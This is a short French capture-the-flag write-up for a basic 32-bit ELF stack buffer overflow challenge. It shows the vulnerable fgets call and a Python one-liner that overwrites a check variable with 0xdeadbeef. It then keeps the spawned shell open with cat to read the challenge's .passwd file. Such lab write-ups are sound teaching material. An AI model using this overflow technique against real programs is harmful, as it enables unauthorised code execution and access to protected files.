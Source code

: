 # ELF x86 - Stack buffer overflow basic 1

```bash
    int check = 0x04030201;
    char buf[40];
    fgets(buf,45,stdin);
```
La faille se situe dans la fonction fgets qui peut enregister jusqu'a 45 caractères dans buf alors qu'il peut seulement en contenir que 40.

On contruit notre exploit:

```python
python -c 'print "A"*40 + "\xef\xbe\xad\xde"' | ./ch13
```

On obtient la phrase "Yeah dude ! You win !" mais pas de shell. On va donc bloquer l'éxécution avec cat.

```python
(python -c 'print "A"*40 + "\xef\xbe\xad\xde"'; cat) | ./ch13
```
On se retrouve avec un shell, il reste plus qu'a lire le fichier .passwd.
